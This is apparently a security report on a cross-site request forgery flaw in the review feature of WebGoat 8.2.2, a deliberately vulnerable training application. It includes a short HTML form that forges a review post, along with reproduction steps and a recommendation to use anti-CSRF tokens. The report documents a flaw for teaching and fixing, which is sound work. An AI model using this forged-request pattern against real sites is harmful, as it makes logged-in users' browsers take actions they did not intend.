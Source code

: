 # WebGoat. Review page functionality is vulnerable for CSRF
Review functionality on the page "/WebGoat/start.mvc#lesson/CSRF.lesson/3" is vulnerable for CSRF. 
It is possible to post an arbitrary review comment on behalf of a logged-in user by tricking the user to do some simple actions and forging their request to the review component. 

## Requirements Violation
The following requirements are violated: 
- [Application Security Requirements v. 4.0] [Req. 8.3.1] A unique token should be added to any request that causes modification of data.
- Best Security Practices.

## Business Impact
Unauthorised access to the system.

## Steps to Reproduce
1. Craft an HTML page including the following form:
```html
    <form accept-charset="UNKNOWN" id="csrf-review" method="POST" successcallback="" action="http://www.webgoat.local:8080/WebGoat/csrf/review">
        <input id="reviewText" name="reviewText" type="text" value="The worst app I've ever seen!">
        <input id="reviewStars" name="stars" type="text" value="1">
        <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
        <input type="submit" name="submit" value="Do me a favour">
    </form>
```
2. Login to WebGoat application in a web browser.
3. Open the page created on step 1 in the browser you are logged-in. 
4. Push the "Do me a favour" button. 
5. Open [review page](http://www.webgoat.local:8080/WebGoat/start.mvc#lesson/CSRF.lesson/3)
6. Find the review comment "The worst app I've ever seen!" posted from your account.

## Mitigation Recommendations
1. Implement Anti-CSRF tokens for the requests which cause modification of data. Use implementation from the web framework.  
2. See [cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html).

## Additional Information
**Version**: 8.2.2  
**CVSS**: https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N